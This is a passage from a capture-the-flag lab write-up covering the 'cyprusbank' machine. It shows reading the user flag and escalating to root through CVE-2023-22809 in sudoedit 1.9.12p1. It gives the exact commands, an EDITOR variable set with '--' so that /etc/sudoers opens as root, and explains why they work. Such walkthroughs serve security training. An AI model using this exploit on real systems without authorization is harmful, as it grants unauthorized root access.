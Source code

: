 After stabilizing our shell, we can read the user flag at `/home/web/user.txt`.

```console
web@cyprusbank:~/app$ wc -c /home/web/user.txt
35 /home/web/user.txt
```

## Shell as root

### CVE-2023-22809

Checking the `sudo` privileges for the `web` user, we can see that the user is able to run `sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm` as the `root` user.

```console
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Checking the version of `sudo`, we see it is `1.9.12p1`.

```console
web@cyprusbank:~/app$ sudoedit --version
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
```

Looking for vulnerabilities in the `sudoedit` version `1.9.12p1`, we find the `CVE-2023-22809` vulnerability. You can find detailed information about it in [this security advisory from Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf).

Essentially, `sudoedit` allows users to choose their editor using environment variables such as `SUDO_EDITOR`, `VISUAL`, or `EDITOR`. Since the values of these variables can be not only the editor itself but also the arguments to pass to the chosen editor, `sudo` uses `--` while parsing them to separate the editor and its arguments from the files to open for editing.

This means that by using the `--` argument in the editor environment variables, we can force it to open files other than those allowed in the `sudoedit` command we can run. Consequently, since we can execute `sudoedit` as `root` with `sudo`, we can edit any file we want as `root`.

To use this vulnerability for privilege escalation, there are many files we could write to. In this case, we can simply choose to write to the `/etc/sudoers` file to grant ourselves full `sudo` privileges.

We can exploit the vulnerability as follows:


```console
web@cyprusbank:~/app$ export EDITOR="nano -- /etc/sudoers"
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
